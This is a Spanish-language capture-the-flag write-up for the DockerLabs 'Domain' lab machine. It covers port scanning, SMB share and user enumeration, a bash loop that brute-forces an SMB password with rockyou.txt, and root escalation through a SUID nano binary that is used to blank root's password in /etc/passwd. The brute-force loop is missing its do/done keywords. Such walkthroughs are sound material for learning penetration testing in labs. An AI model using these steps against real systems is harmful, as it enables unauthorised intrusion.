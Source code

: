 Máquina: [Domain](https://dockerlabs.es/#/#Domain), from DockerLabs

## 1) Como siempre iniciamos con un escaneo de puertos contra la IP destino
```
nmap -p- --open -sS -vvv --min-rate 3000 -n 172.17.0.2
```

| Port | Service|
|   :--  |    :--: |
|80      | http        |
|139     | netbios-ssn |
|445     | microsoft-ds|

Los puertos 139 y 445 se utilizan para el protocolo Server Message Blocks (SMB). Protocolo que se emplea para compartir archivos, impresoras, dispositivos en una red.

## 2) Veamos qué recursos compartidos hay 
```
smbclient -L=\<IP>
```

`-L <IP>: obtener una lista de recursos compartidos brindados por la IP destino.`

Obtenemos los siguientes resultados

| Sharename | Type | Comment|
| :-- | :-- | :--|
| print$ | Disk| Printer Drivers |
| html | Disk | HTML Share |
| IPC$ | IPC | IPC Service |

De los recursos compartidos el que más nos interesa será el `html` puesto que si logramos almacenar un archivo allí que luego podamos acceder por medio del puerto 80 entonces podriamos lograr RCE.
Para ello primero necesitamos identifiacr que usuarios hay y encontrar las credenciales de alguno con acceso de escritura en dicho recurso.

## 3) Usamos rpcclientsirve para averiguar los usuarios del sistema, necesitamos alguno que tenga permiso al shared disk del servicio SMB.
```
rpcclient -N 172.17.0.2 -U ''
```
`-N <IP>: la dirección IP target`\
`-U: el user, en este caso en blanco porque lo desconocemos`

Una vez que estamos dentro de la herramienta, ejecutamos `enumdomusers` y obtenemos 2 usuarios presentes en el servicio SMB: Bob y James

## 4) Hacemos fuerza bruta hasta encontrar la contraseña de un usuario
Para verificar si puedo conectarme con smbclient seria
`smbclient \\\\172.17.0.2\\<SHARED DISK> --user=<USER>%<$PASSW>`
Ahí hago fuzzing en `$PASSW` con _rockyou.txt_ en búsqueda de la contraseña. En principio reemplazo `<USER>` con uno y verifico que tenga permisos de escritura en el shared disk, cuyo nombre es html. El comando quedaría

```
smbclient \\\\172.17.0.2\\html --user=bob%$FUZZ
```
`$FUZZ` será donde reemplazamos por las entradas de `rockyou.txt` en este caso lo hacemos con simple bash, lo cual va a demorar pues está corriendo todo en 1 solo thread.

```
for f in $(cat /usr/share/wordlists/rockyou.txt); if smbclient -L=172.17.0.2 -U bob%$f &>/dev/null; then echo password: $f; fi
```

## 5) Escalamos privilegios
Ejecutamos el siguiente comando para encontrar archivos sobre los que en algún momento se ejecutó el comando `chmod u+s` activando el `SUID`.
```
find / -perm -4000 2>/dev/null
```
Encuentro el archivo `/usr/bin/nano`.\
Esto quiere decir que puedo ejecutar nano con los permisos del usuario `root` con lo cual puedo editar el archivo de texto `/etc/passwd` y modificar la siguiente entrada
`root:x:0:0:root:/root:/bin/bash` --> `root::0:0:root:/root:/bin/bash`

Es decir al elimiar la **x** ya no me pedirá contraseña para acceder al usuario root.
Finalmente podemos ejecutar `su` y accedemos al usuario root.

## Resumen del ataque

Este método funcionó por lo siguiente:
* Los puertos de SMB y HTTP (139,445,80) están abiertos
* Encontramos 2 usuarios del sistema target
* La password del usuario era muy simple y se le pudo hacer fuerza bruta, logrando conexión via smbclient
* Logramos RCE ejecutando un archivo via HTTP que previamente había sido compartido por SMB.
* El usuario puede correr `/usr/bin/nano` como root
